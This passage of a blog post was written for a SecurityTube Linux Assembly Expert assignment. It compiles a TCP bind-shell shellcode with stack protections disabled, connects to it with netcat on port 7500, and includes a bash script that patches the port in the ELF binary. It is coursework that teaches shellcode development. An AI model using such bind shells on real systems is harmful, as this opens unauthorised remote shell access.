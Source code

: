 Now it's time to compile the file with `gcc -fno-stack-protector -z execstack main.c -o Shell_Bind_TCP` (or with [this](https://github.com/paolostivanin/SLAE/blob/master/utility/for-shellcode/compile_gcc.sh) script) and then run it with `./Shell_Bind_TCP`.

To test the shellcode you just need to open a new terminal and type `nc localhost 7500` and...you're in :-)

[![res_ass1]({{ site.baseurl }}/images/2014/04/res_ass1-1024x575.png)]({{ site.baseurl }}/images/2014/04/res_ass1.png)

The last point of this assignment ask to provide a way to easily configure the port number. To accomplish this request I developed this small script:

	#!/bin/bash

	#Description:	Assignment #1 (Shell_Bind_TCP, configure port)
	#Author: 		Paolo Stivanin <https://github.com/paolostivanin>
	#SLAE ID:		526

	if [ -z "$1" ]; then
		echo "Usage: $0 <elf-file>"
		exit -1
	fi

	oldport=$(od -t x1 $1|grep -o -P "66 68.{6}"|sed 's/\(......\)//g'|sed 's/\ //g')
	hexoldport=$(printf '%s' $oldport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')

	echo "--> Write port number: "
	read port
	hexport=$(printf '%x' $port)

	echo "[+] HEX code of choosed port: $hexport"

	echo "[+] Updating $1 elf..."
	newport=$(printf '%s' $hexport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
	sed -i "s/\x66\x68$hexoldport/\x66\x68$newport/g" $1

	echo "[+] All done :)"

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
